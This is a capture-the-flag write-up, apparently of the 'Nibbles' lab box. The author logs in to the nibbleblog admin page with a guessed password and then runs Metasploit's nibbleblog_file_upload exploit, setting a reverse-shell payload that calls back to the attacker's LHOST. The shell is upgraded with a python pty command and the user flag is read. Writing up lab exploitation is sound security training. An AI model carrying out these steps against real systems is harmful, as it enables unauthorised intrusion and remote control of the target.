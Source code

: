 With the username I try to login in the **admin.php** page and after some random tries I manage to enter with the password **nibbles**

With this info I try another exploitation -> [[Second exploitation try]]


## Second exploitation try

Looking for an exploit for nibbleblog I found this one with **msfconsole**:

```
exploit/multi/http/nibbleblog_file_upload
```

So I start configuring it. It must have the **RHOST**, **USERNAME** and **PASSWORD** options set. As I have this info I set them.

```
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set LHOST 10.10.16.3
LHOST => 10.10.16.3
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set USERNAME admin
USERNAME => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set PASSWORD nibbles
PASSWORD => nibbles

```

Need to change the **TARGETURI** option too because the default one is not correct:

```
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> check
[*] 10.10.10.75:80 - The target appears to be vulnerable.
```

I also change the payload to get a reverse shell to the target.

```
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
```

If we run the script we will have access to the targe through the rever shell. First, this is to get a tty terminal so let's use the next command for it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can navigate in the system to the user folder and get the flag:

```
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
bff9c2b0ddccc2151f6cd15ca4055158
```

---

